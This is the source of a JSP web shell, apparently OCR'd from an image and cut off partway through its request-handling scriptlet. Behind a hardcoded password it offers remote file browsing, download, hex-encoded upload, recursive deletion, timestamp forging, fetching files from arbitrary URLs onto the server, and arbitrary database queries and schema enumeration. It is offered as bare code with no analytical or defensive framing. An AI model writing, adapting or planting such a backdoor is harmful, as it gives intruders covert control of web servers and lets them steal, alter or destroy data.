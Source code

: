 ```
<jsp:root xmlns:jsp="http://java.sun.com/JSP/Page" xmlns="http://www.w3.org/1999/xhtml" xmlns:c="http://java.sun.com/jsp/jstl/core" version="1.2"><jsp:directive.page contentType="text/html" pageEncoding="UTF-8" /><jsp:directive.page import="java.io.*"/><jsp:directive.page import="java.util.*"/><jsp:directive.page import="java.net.*"/><jsp:directive.page import="java.sql.*"/><jsp:directive.page import="java.text.*"/><jsp:declaration>String Pwd="023";String cs="UTF-8";String EC(String s)throws Exception{return new String(s.getBytes("ISO-8859-1"),cs);}Connection GC(String s)throws Exception{String[] x=s.trim().split("\r\n");Class.forName(x[0].trim());if(x[1].indexOf("jdbc:oracle")!=-1){return DriverManager.getConnection(x[1].trim()+":"+x[4],x[2].equalsIgnoreCase("[/null]")?"":x[2],x[3].equalsIgnoreCase("[/null]")?"":x[3]);}else{Connection c=DriverManager.getConnection(x[1].trim(),x[2].equalsIgnoreCase("[/null]")?"":x[2],x[3].equalsIgnoreCase("[/null]")?"":x[3]);if(x.length>4){c.setCatalog(x[4]);}return c;}}void AA(StringBuffer sb)throws Exception{File r[]=File.listRoots();for(int i=0;i&lt;r.length;i++){sb.append(r[i].toString().substring(0,2));}}void BB(String s,StringBuffer sb)throws Exception{File oF=new File(s),l[]=oF.listFiles();String sT,sQ,sF="";java.util.Date dt;SimpleDateFormat fm=new SimpleDateFormat("yyyy-MM-dd HH:mm:ss");for(int i=0; i&lt;l.length; i++){dt=new java.util.Date(l[i].lastModified());sT=fm.format(dt);sQ=l[i].canRead()?"R":"";sQ +=l[i].canWrite()?" W":"";if(l[i].isDirectory()){sb.append(l[i].getName()+"/\t"+sT+"\t"+l[i].length()+"\t"+sQ+"\n");}else{sF+=l[i].getName()+"\t"+sT+"\t"+l[i].length()+"\t"+sQ+"\n";}}sb.append(sF);}void EE(String s)throws Exception{File f=new File(s);if(f.isDirectory()){File x[]=f.listFiles();for(int k=0; k &lt; x.length; k++){if(!x[k].delete()){EE(x[k].getPath());}}}f.delete();}void FF(String s,HttpServletResponse r)throws Exception{int n;byte[] b=new byte[512];r.reset();ServletOutputStream os=r.getOutputStream();BufferedInputStream is=new BufferedInputStream(new FileInputStream(s));os.write(("->"+"|").getBytes(),0,3);while((n=is.read(b,0,512))!=-1){os.write(b,0,n);}os.write(("|"+"&lt;-").getBytes(),0,3);os.close();is.close();}void GG(String s,String d)throws Exception{String h="0123456789ABCDEF";File f=new File(s);f.createNewFile();FileOutputStream os=new FileOutputStream(f);for(int i=0; i&lt;d.length();i+=2){os.write((h.indexOf(d.charAt(i)) &lt;&lt; 4 | h.indexOf(d.charAt(i+1))));}os.close();}void HH(String s,String d)throws Exception{File sf=new File(s),df=new File(d);if(sf.isDirectory()){if(!df.exists()){df.mkdir();}File z[]=sf.listFiles();for(int j=0; j&lt;z.length; j++){HH(s+"/"+z[j].getName(),d+"/"+z[j].getName());}}else{FileInputStream is=new FileInputStream(sf);FileOutputStream os=new FileOutputStream(df);int n;byte[] b=new byte[512];while((n=is.read(b,0,512))!=-1){os.write(b,0,n);}is.close();os.close();}}void II(String s,String d)throws Exception{File sf=new File(s),df=new File(d);sf.renameTo(df);}void JJ(String s)throws Exception{File f=new File(s);f.mkdir();}void KK(String s,String t)throws Exception{File f=new File(s);SimpleDateFormat fm=new SimpleDateFormat("yyyy-MM-dd HH:mm:ss");java.util.Date dt=fm.parse(t);f.setLastModified(dt.getTime());}void LL(String s,String d)throws Exception{URL u=new URL(s);int n=0;FileOutputStream os=new FileOutputStream(d);HttpURLConnection h=(HttpURLConnection) u.openConnection();InputStream is=h.getInputStream();byte[] b=new byte[512];while((n=is.read(b))!=-1){os.write(b,0,n);}os.close();is.close();h.disconnect();}void MM(InputStream is,StringBuffer sb)throws Exception{String l;BufferedReader br=new BufferedReader(new InputStreamReader(is));while((l=br.readLine())!=null){sb.append(l+"\r\n");}}void NN(String s,StringBuffer sb)throws Exception{Connection c=GC(s);ResultSet r=s.indexOf("jdbc:oracle")!=-1?c.getMetaData().getSchemas():c.getMetaData().getCatalogs();while(r.next()){sb.append(r.getString(1)+"\t");}r.close();c.close();}void OO(String s,StringBuffer sb)throws Exception{Connection c=GC(s);String[] x=s.trim().split("\r\n");ResultSet r=c.getMetaData().getTables(null,s.indexOf("jdbc:oracle")!=-1?x.length>5?x[5]:x[4]:null,"%",new String[]{"TABLE"});while(r.next()){sb.append(r.getString("TABLE_NAME")+"\t");}r.close();c.close();}void PP(String s,StringBuffer sb)throws Exception{String[] x=s.trim().split("\r\n");Connection c=GC(s);Statement m=c.createStatement(1005,1007);ResultSet r=m.executeQuery("select * from "+x[x.length-1]);ResultSetMetaData d=r.getMetaData();for(int i=1;i&lt;=d.getColumnCount();i++){sb.append(d.getColumnName(i)+" ("+d.getColumnTypeName(i)+")\t");}r.close();m.close();c.close();}void QQ(String cs,String s,String q,StringBuffer sb,String p)throws Exception{Connection c=GC(s);Statement m=c.createStatement(1005,1008);BufferedWriter bw=null;try{ResultSet r=m.executeQuery(q.indexOf("--f:")!=-1?q.substring(0,q.indexOf("--f:")):q);ResultSetMetaData d=r.getMetaData();int n=d.getColumnCount();for(int i=1; i &lt;=n; i++){sb.append(d.getColumnName(i)+"\t|\t");}sb.append("\r\n");if(q.indexOf("--f:")!=-1){File file=new File(p);if(q.indexOf("-to:")==-1){file.mkdir();}bw=new BufferedWriter(new OutputStreamWriter(new FileOutputStream(new File(q.indexOf("-to:")!=-1?p.trim():p+q.substring(q.indexOf("--f:")+4,q.length()).trim()),true),cs));}while(r.next()){for(int i=1; i&lt;=n;i++){if(q.indexOf("--f:")!=-1){bw.write(r.getObject(i)+""+"\t");bw.flush();}else{sb.append(r.getObject(i)+""+"\t|\t");}}if(bw!=null){bw.newLine();}sb.append("\r\n");}r.close();if(bw!=null){bw.close();}}catch(Exception e){sb.append("Result\t|\t\r\n");try{m.executeUpdate(q);sb.append("Execute Successfully!\t|\t\r\n");}catch(Exception ee){sb.append(ee.toString()+"\t|\t\r\n");}}m.close();c.close();}</jsp:declaration><jsp:scriptlet>cs=request.getParameter("z0")!=null?request.getParameter("z0")+"":cs;response.setContentType("text/html");response.setCharacterEncoding(cs)
```
